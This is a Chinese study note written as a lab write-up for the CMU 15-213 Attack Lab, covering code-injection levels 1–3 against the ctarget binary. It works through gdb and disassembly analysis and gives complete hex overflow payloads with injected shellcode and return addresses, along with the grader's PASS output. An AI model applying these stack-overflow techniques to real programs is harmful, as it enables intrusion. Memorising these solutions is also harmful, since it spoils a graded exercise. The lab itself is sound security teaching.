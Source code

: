 # Lab03 attack

标签（空格分隔）： 学习笔记

---

Lab03帮助学生理解缓冲区溢出，感觉要比lab02有用多了

### step1 读题
读题实际上是比较难的一个步骤。可以说大部分时间在理解题目，当题目理解好了，剩下的就不难了。
Hex2raw的意思是将你输入的十六进制数字转化成真正的十六进制
花了几天时间才搞清楚ctarget是无法接受字符串输入的

## 4 Part I: Code Injection Attacks
### 4.1 level 1

这个是最简单的缓冲区溢出，也就是栈溢出，攻击的方式就是直接在ret指令执行之前，替换rsp内存地址处的值为你想要跳转到的函数地址。
我的思路：
想要替换rsp处内存中的值，我们就首先需要找到rsp的值。

    00000000004017a8 <getbuf>:
      4017a8:	48 83 ec 28          	sub    rsp,0x28
      4017ac:	48 89 e7             	mov    rdi,rsp
      4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
      4017b4:	b8 01 00 00 00       	mov    eax,0x1
      4017b9:	48 83 c4 28          	add    rsp,0x28
      4017bd:	c3                   	ret    
      4017be:	90                   	nop
      4017bf:	90                   	nop
      
我们首先找到getbuf函数，使用gdb在0x4017bd处打一个断点。让程序运行到这个位置。查看rsp的值为0x5561dca0.  
进一步查看内存中的值，发现这个栈顶的值为0x0000000000401976。  
就是test函数中  401971:	e8 32 fe ff ff       	call   4017a8 <getbuf> 下面的一个指令的地址  
 401976:	89 c2                	mov    edx,eax

    (gdb) x/4xg 0x5561dca0
    0x5561dca0:     0x0000000000401976      0x0000000000000009
    0x5561dcb0:     0x0000000000401f24      0x0000000000000000

我们只要将输入足够长的字符串，把这个内存地址的值挤掉，变成touch1的函数地址即可。  
在gets函数中的这个指令是存储字符串的

      401a5a:	88 03                	mov    BYTE PTR [rbx],al

rbx的值为0x5561dc78
此处的内存地址中的内容为：

    (gdb) x/6xg 0x5561dc78
    0x5561dc78:     0x0000ab9078563412      0x0000000000000000
    0x5561dc88:     0x0000000000000000      0x0000000000000000
    0x5561dc98:     0x0000000055586000      0x0000000000401976

大概字符串的长度是64*5 bits就是8*5个字节，就能覆盖到0x401976。所以最后答案为

    12 34 56 78 90 ab cd ef ef ef
    12 34 56 78 90 ab cd ef ef ef
    12 34 56 78 90 ab cd ef ef ef
    12 34 56 78 90 ab cd ef ef ef
    c0 17 40 00 00 00 00 00
    

Continuing. Type string:Touch1!: You called touch1() Valid solution for level 1 with target ctarget PASS: Would have posted the following:
    user id bovik
    course  15213-f15
    lab     attacklab
    result  1:PASS:0xffffffff:ctarget:1:12 34 56 78 90 AB CD EF EF EF 12 34 56 78 90 AB CD EF EF EF 12 34 56 78 90 AB CD EF EF EF 12 34 56 78 90 AB CD EF EF EF C0 17 40 00 00 00 00 00  [Inferior 1 (process 11388) exited normally]
    
### 4.2 level 2
这个其实也是栈溢出的原理，只不过在ret到touch2之前必须给传一个参数给edi。这个很纠结，起初我以为是不能执行栈上的数据的，后来网上搜了一下发现这个是可以执行stack中的数据的。
如果可以执行stack中的数据，那么可以操作的空间就大了很多。两次ret可以解决，第一次ret到stack上执行指令，然后操作rsp，第二次ret到touch2，这是我第一次尝试的str：

    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    ec 17 40 00 00 00 00 00
    48 c7 c7 fa 97 b9 59 48
    83 ec 20 c3 00 00 00 00
    90 dc 61 55 00 00 00 00
    
但是导致了segment fault。后来网上看了，是因为rsp的值不能改，也就是说，ret到touch2以后rsp和test中的必须保持一致，但是我一直搞不清楚，rsp更改8个字节怎么就能导致段错误呢？
后来修改过stack中的指令，增加了一个pushq，使得进入touch2以后rsp的值不改变，这样就过了。

    (gdb) c
    Continuing.
    Valid solution for level 2 with target ctarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:ctarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 EC 17 40 00 00 00 00 00 48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 90 DC 61 55 00 00 00 00 
    [Inferior 1 (process 46846) exited normally]
    
### 4.3 level 3
这个题目和上一个题目主要的区别就是需要传一个字符串地址，重点在于字符串的保存，我选择保存在test栈中，最后结果如下：

    00 00 00 00 00 00 00 00 
    00 00 00 00 00 00 00 00 
    00 00 00 00 00 00 00 00 
    00 00 00 00 00 00 00 00 
    00 00 00 00 00 00 00 00  
    b8 dc 61 55 00 00 00 00
    35 39 62 39 39 37 66 61 
    00 00 00 00 00 00 00 00   
    48 c7 c7 a8 dc 61 55
    68 fa 18 40 00 
    c3 00 00 00 

    (gdb) 
    Continuing.
    Type string:Touch3!: You called touch3("59b997fa")
    Valid solution for level 3 with target ctarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:ctarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 B8 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00 00 00 00 00 00 00 00 48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 
    [Inferior 1 (process 346910) exited normally]

